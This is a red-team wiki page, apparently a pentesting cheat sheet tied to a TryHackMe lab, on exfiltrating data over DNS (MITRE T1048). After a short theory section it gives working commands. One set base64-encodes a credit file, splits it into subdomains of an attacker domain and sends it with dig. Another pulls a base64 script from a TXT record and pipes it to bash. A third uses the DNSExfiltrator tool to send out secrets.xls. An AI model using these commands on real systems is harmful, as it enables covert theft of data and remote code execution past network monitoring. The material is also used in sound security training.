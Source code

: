 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - ID T1048
---
```

# Over DNS

## Theory
The DNS protocol is a common protocol and Its primary purpose is to resolve domain names to IP addresses and vice versa. Even though the DNS protocol is not designed to transfer data, threat actors found a way to abuse and move data over it.  
Since DNS is not a transport protocol, many organizations don't regularly monitor the DNS protocol! The DNS protocol is allowed in almost all firewalls in any organization network. For those reasons, threat actors prefer using the DNS protocol to hide their communications.

### Limitations

The DNS protocol has limitations that need to be taken into consideration, which are as follows,

- The maximum length of the Fully Qualified FQDN domain name (including .separators) is 255 characters.
- The subdomain name (label) length must not exceed 63 characters (not including .com, .net, etc).

### Scenario

Now let's discuss the Data Exfiltration over DNS requirements and steps, which are as follows:  
1 - An attacker registers a domain name, for example, tunnel.com  
2 - The attacker sets up tunnel.com's NS record points to a server that the attacker controls.  
3 - The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.  
4 - The DNS request is sent through the local DNS server and is forwarded through the Internet.  
5 - The attacker's authoritative DNS (malicious server) receives the DNS request.  
6 - Finally, the attacker extracts the password from the domain name.  

## Practice

{% tabs %}
{% tab title="Manualy" %}
{% hint style="info" %}
We concider that a NS record named `t1.tunnel.com` as been registred. It's poiting the Attacking IP.
{% endhint %}

In order to receive any DNS request on the attacking machine, we need to capture the network traffic for any incoming UDP/53 packets using the [tcpdump](https://github.com/the-tcpdump-group/tcpdump) tool.  
```bash
v4resk@kali$ sudo tcpdump -i eth0 udp port 53 -v 
```
On the victim machine, we first encode datas that need to be send, and split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name.
```bash
# Methode 1
victim@pwnd.lab$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.t1.tunnel.com/' > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.t1.tunnel.com
IKQWRkcmVzczogMTIz.t1.tunnel.com
NCBJbnRlcm5ldCwgVE.t1.tunnel.com
hNCkNyZWRpdCBDYXJk.t1.tunnel.com
OiAxMjM0LTEyMzQtMT.t1.tunnel.com
IzNC0xMjM0CkV4cGly.t1.tunnel.com
ZTogMDUvMDUvMjAyMg.t1.tunnel.com
pDb2RlOiAxMzM3Cg==.t1.tunnel.com

#Methode 2
victim@pwnd.lab$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com
```
In order to send this datas, on the compromised host we can do:
```bash
victim@pwnd.lab$ cat toExfiltrate.txt | awk '{print "dig +short " $1}' | bash
```

Finally, on the attacking machine, we can decrypt datas as follow:
```bash
v4resk@kali$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```
{% endtab %}

{% tab title="Command Execution" %}
Let's see how can tunneling code execution via the DNS protocol.
We first need to create a `TXT` record containing our script encoded in base64. Let's take`script.tunnel.com` as example.

```bash
#Check if the TXT record is well configured
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com
"IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

#Execution over DNS
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```
{% endtab %}

{% tab title="DNSExfiltrator" %}
[DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) allows for transfering (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.  
On the attacking machine we do:
```bash
v4resk@kali$ ./dnsexfiltrator.py -d mydomain.com -p password
```
On the compromised host:
```bash
dnsExfiltrator.exe secrets.xls mydomain.com password s=ATTACKING_IP t=500
```
{% endtab %}
{% endtabs %}

### DNS Tunneling
An other methode is to tunneling other protocols over DNS. Check this page for more details.
{% content-ref url="../pivoting/dnsTunneling.md" %}
[dnsTunneling.md](../pivoting/dnsTunneling.md)
{% endcontent-ref %}


## Resources
{% embed url="https://tryhackme.com/room/dataxexfilt" %}

